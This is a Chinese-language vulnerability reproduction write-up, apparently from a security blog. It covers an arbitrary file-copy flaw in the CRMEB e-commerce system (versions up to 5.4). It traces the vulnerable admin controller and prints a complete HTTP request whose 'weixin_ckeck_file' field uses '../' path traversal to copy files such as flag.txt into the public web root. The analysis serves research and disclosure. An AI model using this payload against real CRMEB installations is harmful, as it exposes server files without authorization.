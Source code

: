 ## 环境搭建

漏洞版本影响 <=5.4

```php
git clone https://github.com/crmeb/CRMEB.git
```

![image-20241230204422170](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302044215.png)

这里伪静态要编辑

```php
location / {
    if (!-e $request_filename) {
        rewrite  ^(.*)$  /index.php?s=/$1  last;
        break;
    }
}
```

## 漏洞复现

漏洞存在路由：

![image-20241230205429694](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302054753.png)

跟踪到`\app\adminapi\controller\v1\setting\SystemConfig::save_basics`

![image-20241230210057997](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302100044.png)

这一部分是遍历数组取参数的。跟进到`$post = $this->request->post();`

![image-20241230210213045](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302102084.png)

然后进入到`	return $this->only($name, $this->post, $filter);`

![image-20241230210332061](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302103113.png)

将传入的参数循环复制为数组。然后回到`\app\adminapi\controller\v1\setting\SystemConfig::save_basics`
![image-20241230210430221](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302104271.png)

下面就是根据匹配到的参数进行相应的操作，这里如果检测到`weixin_ckeck_file`那么就进入了内层，这里有一个`copy`函数，可以进行文件复制操作。然后看`$from`和`$to`; 这里跟进到`public_path()`他就是获去public的路径，也就是我们搭建网站的根路径，然后将`weixin_ckeck_file`拼接到后边，再看`$to`,它以`/`分割为数组，然后使用了一个数组逆序然后取第一个元素，太好啦，这里我们就能控制要复制的文件然后将文件复制到public目录下。构造payload

```c
POST /adminapi/setting/config/save_basics?XDEBUG_SESSION_START=12261 HTTP/1.1
Host: 127.0.0.1:89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNWUxNjFlNDhiN2JjYTM0NTk1MGU3NTM0MDdlYTgxOCIsImlzcyI6IjEyNy4wLjAuMTo4OSIsImF1ZCI6IjEyNy4wLjAuMTo4OSIsImlhdCI6MTczNTU2MTc4MCwibmJmIjoxNzM1NTYxNzgwLCJleHAiOjE3MzgxNTM3ODAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.IbCGEX_33vnfH3LC05OmfKRG0EkCpFpYjxrGmfHtjlg
Connection: close
Referer: http://127.0.0.1:89/admin/user/list
Cookie: cb_lang=zh-cn; PHPSESSID=f2bff51ad1cf4d38f6b56e4286741507; WS_ADMIN_URL=ws://127.0.0.1:89/notice; WS_CHAT_URL=ws://127.0.0.1:89/msg; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNWUxNjFlNDhiN2JjYTM0NTk1MGU3NTM0MDdlYTgxOCIsImlzcyI6IjEyNy4wLjAuMTo4OSIsImF1ZCI6IjEyNy4wLjAuMTo4OSIsImlhdCI6MTczNTU2MTc4MCwibmJmIjoxNzM1NTYxNzgwLCJleHAiOjE3MzgxNTM3ODAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.IbCGEX_33vnfH3LC05OmfKRG0EkCpFpYjxrGmfHtjlg; expires_time=1738153780
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Type: application/json;charset=utf-8
Content-Length: 68

{
    "weixin_ckeck_file": "../../../../../../../../../flag.txt"
}
```

## 调试分析

![image-20241230211353439](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302113529.png)

前面数组遍历就不截图了，自己调调就能明白其中的道理了。

![image-20241230211752799](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302117911.png)

成功copy文件成功
![image-20241230211821061](https://foreverwlwl.oss-cn-beijing.aliyuncs.com/typora/202412302118101.png)
